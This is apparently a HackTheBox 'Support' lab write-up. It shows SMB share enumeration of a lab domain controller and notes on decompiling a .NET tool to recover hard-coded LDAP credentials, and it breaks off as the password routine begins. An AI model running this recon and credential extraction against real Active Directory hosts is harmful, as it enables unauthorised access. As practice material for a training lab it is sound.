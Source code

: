 ```yaml
---
title: HackTheBox-Support
date: 2024-12-23 09:40:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [ldapsearch, add-comptuer]     # TAG names should always be lowercase
image : /assets/images/images (2).jpg
---
```


## SMB-enum
    ➜  Support nxc smb 10.10.11.174 
    SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)

    ➜  Support smbclient -L \\support.htb
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            support-tools   Disk      support staff tools
            SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

## Decompile exe file

if its Mono/.Net assembly then go dnspy 


if its not we can check ida or ghidra
for username

    ➜  Support cat ldapuser.txt 
                    public LdapQuery()
                    {
                            string password = Protected.getPassword();
                            this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
                            this.entry.AuthenticationType = AuthenticationTypes.Secure;
                            this.ds = new DirectorySearcher(this.entry);
                    }

for password


    ➜  Support cat getpassword.txt 
    using System;
    using System.Text;
